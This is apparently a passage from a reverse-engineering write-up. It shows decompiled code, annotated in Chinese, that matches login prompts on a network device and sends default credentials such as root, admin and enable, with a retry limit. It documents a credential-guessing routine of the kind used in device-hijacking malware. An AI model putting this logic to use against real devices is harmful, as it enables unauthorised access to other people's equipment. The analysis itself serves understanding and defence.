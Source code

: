```js
          pcVar7 = pcVar7 + 1) {  
      }  
      iVar3 = strncmp(pcVar7,"User Name:",10);  
      if (iVar3 != 0) break;    #检查是否为User Name，如果是推出内部循环  
      if (3 < iVar6) {      #iVar为尝试次数，3次失败后return 0xfffffff  
        puts("login failed");  
        return 0xffffffff;  
      }  
      sVar4 = snprintf(acStack4136,0x1000,"root\\n");  将acStack4136赋值为root  
      if (0xfff < sVar4) {  
        sVar4 = 0xfff;      
      }  
      send(param\_1,acStack4136,sVar4,0); #send发送root  
      sVar4 = snprintf(acStack4136,0x1000,"admin\\n");  将acStack4136赋值为admin  
      if (0xfff < sVar4) {  
        sVar4 = 0xfff;  
      }  
      send(param\_1,acStack4136,sVar4,0);           #send发送admin  
      sVar4 = snprintf(acStack4136,0x1000,"enable\\n");  
      if (0xfff < sVar4) {  
        sVar4 = 0xfff;  
      }     
      send(param\_1,acStack4136,sVar4,0);    #send发送enable  
      pcVar7 = "configure\\n";  
LAB\_0044c564:  
      iVar6 = iVar6 + 1;     #验证次数加一  
      uVar5 = snprintf(acStack4136,0x1000,pcVar7);  
      sVar4 = 0xfff;  
      if (uVar5 < 0x1000) {  
        sVar4 = uVar5;  
      }  
      send(param\_1,acStack4136,sVar4,0);      #send发送configure，而且这一步pcVar7改变，就不会再被进入其他strcmp验证  
    }  #内层循环结束  
    iVar3 = strncmp(pcVar7,"Login:",6);  #匹配关键指纹login：，进入login的验证模式  
    if (iVar3 == 0) {  
      if (3 < iVar6) goto LAB\_0044c7bc;    
      sVar4 = snprintf(acStack4136,0x1000,"root\\n");  
      if (0xfff < sVar4) {  
        sVar4 = 0xfff;           
      }  
      send(param\_1,acStack4136,sVar4,0);   #send发送root  
      pcVar7 = "admin\\n";  
      goto LAB\_0044c564;        #send发送admin,尝试次数加一,再去发送configure  
    }  
    iVar3 = strncmp(pcVar7,"Username:",9);    #再次匹配Username:  
    if (iVar3 == 0) {  
      if (3 < iVar6) {  
LAB\_0044c7bc:  
        puts("login failed");  
        return 0xffffffff;  
      }  
      sVar4 = snprintf(acStack4136,0x1000,"admin\\n");  
      if (0xfff < sVar4) {  
        sVar4 = 0xfff;  
      }  
      send(param\_1,acStack4136,sVar4,0);  
      iVar6 = iVar6 + 1;  
      uVar5 = snprintf(acStack4136,0x1000,"admin\\n");  
      sVar4 = 0xfff;  
      if (uVar5 < 0x1000) {  
        sVar4 = uVar5;  
      }  
      send(param\_1,acStack4136,sVar4,0);  
```